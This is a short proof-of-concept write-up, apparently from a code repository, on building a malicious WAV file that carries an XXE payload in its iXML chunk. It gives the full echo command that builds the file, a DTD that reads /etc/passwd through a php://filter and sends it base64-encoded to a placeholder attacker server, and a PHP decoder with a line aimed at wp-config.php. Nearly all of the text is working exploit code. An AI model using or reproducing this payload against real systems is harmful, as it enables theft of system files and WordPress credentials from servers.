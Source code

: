 # Creating Malicous WAV files

In PoC
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/BADFILE.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Create `BAD.dtd` with text editor, which perform an arbituary file disclosure  of `/etc/passwd`:

`<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">   <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >`

Decode.php:
`<?php echo zlib_decode(base64_decode('base64here')); ?>`

```bash
decode.php > wp-config.php
```

Host on a server. 

